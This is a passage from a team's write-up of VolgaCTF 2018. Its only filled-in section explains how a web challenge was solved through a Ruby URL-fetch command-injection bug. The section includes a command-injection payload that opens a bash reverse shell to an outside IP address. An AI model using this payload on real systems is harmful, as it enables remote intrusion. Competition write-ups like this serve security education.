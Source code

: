 # Volgactf CTF 2018

**It's recommended to read our responsive [web
version](https://balsn.tw/ctf_writeup/20180324-volgactf/) of this writeup.**

- [Volgactf CTF 2018](#volgactf-ctf-2018)  
  - [Pwn](#pwn)  
  - [reverse](#reverse)  
  - [Web](#web)  
    - [Old Government Site (solved by sasdf, written by bookgin)](#old-government-site-solved-by-sasdf-written-by-bookgin)  
    - [Guess book (solved by shw15 and sasdf, written by bookgin)](#guess-book-solved-by-shw15-and-sasdf-written-by-bookgin)  
    - [Corp monitoring (unsolved, written by bookgin, special thanks to admin Aleksey)](#corp-monitoring-unsolved-written-by-bookgin-special-thanks-to-admin-aleksey)  
    - [Lazy Admin (solved by sasdf & bookgin, written by bookgin)](#lazy-admin-solved-by-sasdf--bookgin-written-by-bookgin)  
    - [SEO kings (solved by sasdf & bookgin, written by bookgin)](#seo-kings-solved-by-sasdf--bookgin-written-by-bookgin)  
    - [Forgotten Task (unsolved, written by bookgin, special thanks to Alexander Andreev)](#forgotten-task-unsolved-written-by-bookgin-special-thanks-to-alexander-andreev)  
    - [Shop request (no one solved)](#shop-request-no-one-solved)  
  - [Crypto](#crypto)  
  - [forensics](#forensics)

## Pwn

## reverse

## Web

### Old Government Site (solved by sasdf, written by bookgin)

By manipulting the parameter `page?id[]=18` to triger a error, we can see part
of the source code. We soon found a hidden page at `page?id=18`

In the page we can POST a url, and the server will fetch it. The server agent
is `ruby`. Take a look at [CVE-2017-17405](), ruby's feature.  So let's get a
reverse shell.

```  
# POST the url  
|bash -c 'bash -i >& /dev/tcp/1.2.3.4/5678 0>&1'  
```

`cat /flag` and win!

### Guess book (solved by shw15 and sasdf, written by bookgin)
